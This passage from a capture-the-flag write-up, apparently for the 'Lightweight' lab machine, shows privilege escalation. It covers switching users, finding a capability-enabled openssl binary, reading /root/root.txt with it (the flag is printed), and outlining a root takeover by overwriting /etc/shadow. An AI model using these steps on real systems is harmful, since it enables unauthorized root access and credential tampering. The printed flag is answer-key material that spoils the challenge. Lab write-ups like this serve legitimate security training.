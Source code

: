 #### 4.1. Shell access via `ldapuser1`
```
[ldapuser2@lightweight var]$ su ldapuser1
Password:
[ldapuser1@lightweight var]$ 
```


#### 4.2. Quick-win for `root` flag

1) Looking for files with capabilities:
```
[ldapuser1@lightweight ~]$ /sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```


2) Root flag:
```
[ldapuser1@lightweight ~]$ LFILE=/root/root.txt
[ldapuser1@lightweight ~]$ ./openssl enc -in "$LFILE"
f1d4e309c5a6b3fffff74a8f4b2135fa
```


#### 4.3. Root shell

1. read the `/etc/shadow` file
2. modify `/tmp/shadow` file (preferably with a known user hash FTW)
3. overwrite original file
4. `su -` (root password you just changed)
